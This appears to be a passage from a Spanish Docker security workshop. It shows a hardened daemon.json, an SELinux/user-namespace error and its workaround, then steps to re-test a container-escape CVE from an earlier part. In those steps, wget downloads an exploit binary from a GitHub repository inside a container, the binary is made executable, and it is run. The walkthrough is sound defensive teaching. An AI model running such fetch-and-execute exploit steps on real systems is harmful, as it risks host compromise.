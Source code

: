## /etc/config/daemon.json


En este punto se procederá a aplicar todas las configuraciones seguras posibles. 
Para ello crearemos el fichero **/etc/docker/daemon.json** en el cual añadiremos las opciones vistas hasta ahora en formato JSON:

```json
{
        "selinux-enabled":true,
        "live-restore":true,
        "no-new-privileges":true,
        "userns-remap":"default",
        "default-ulimits": {
                "nofile": {
                        "Name": "nofile",
                        "Hard": 64000,
                        "Soft": 64000
                },
                "nproc": {
                        "Name": "nproc",
                        "Hard": 200,
                        "Soft": 100
                }
        }


}
```

Una vez aplicadas estas configuraciones, se reinicia el servicio docker:
````
sudo systemctl restart docker
````

Las imágenes y y contenedores previos ya no existen en este espacio de usuarios, ya que se crea una nueva carpeta en /var/lib/docker/"uid"."gid" .
En este directorio se almacenan todos los archivos de docker. Contenedores, imágenes, volúmenes, etc.

Con todas las configuraciones vistas hasta ahora aplicadas, se procedera a tratar de ejecutar el mismo CVE que mostramos en la parte 1 de este taller .

Se observar un error al ejecutar la imagen de ubuntu:

````
[administrator@localhost Seccion4DockerEscape]$ docker run --name contcomprometido -v -it ubuntu /bin/bash
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
7ddbc47eeb70: Pull complete
c1bbdc448b72: Pull complete
8c3b70e39044: Pull complete
45d437916d57: Pull complete
Digest: sha256:6e9f67fa63b0323e9a1e587fd71c561ba48a034504fb804fd26fd8800039835d
Status: Downloaded newer image for ubuntu:latest
docker: Error response from daemon: OCI runtime create failed: container_linux.go:348: starting container process caused "process_linux.go:402: container init caused \"rootfs_linux.go:58: mounting \\\"mqueue\\\" to rootfs \\\"/var/lib/docker/165536.165536/overlay2/bc26a761dee0baf2791c654fd85453eefdee71b68ed88697f15a73c5ef3b4982/merged\\\" at \\\"/dev/mqueue\\\" caused \\\"operation not permitted\\\"\"": unknown.
````

Esto se debe a que las etiquetas de las políticas selinux incluidas en el paquete container-selinux no se aplican correctamente en el directorio debido a conflictos entre los user namespaces y selinux. Sería necesario modificar las etiquetas o generar una política determinada con herramientas externas.

Véase UDICA: https://github.com/containers/udica

En nuestro caso para solventar este error, se mapeará directamente el directorio /dev/mqueue para que las etiquetas selinux se apliquen correctamente:

````
docker run --name contcomprometido -v /dev/mqueue:/dev/mqueue -it ubuntu /bin/bash
````

Una vez dentro del contenedor, debemos cambiar de directorio a la carpeta /tmp y descargar el exploit y cambiar sus permisos:
````
cd /tmp

apt update && apt install wget

wget https://github.com/SidertiaLabs/contenedoresyseguridad/raw/master/Seccion1DockerEscape/main

chmod 777 /tmp/main
````
Se ejecuta el exploit de la sección 1 y se comentan los resultados.


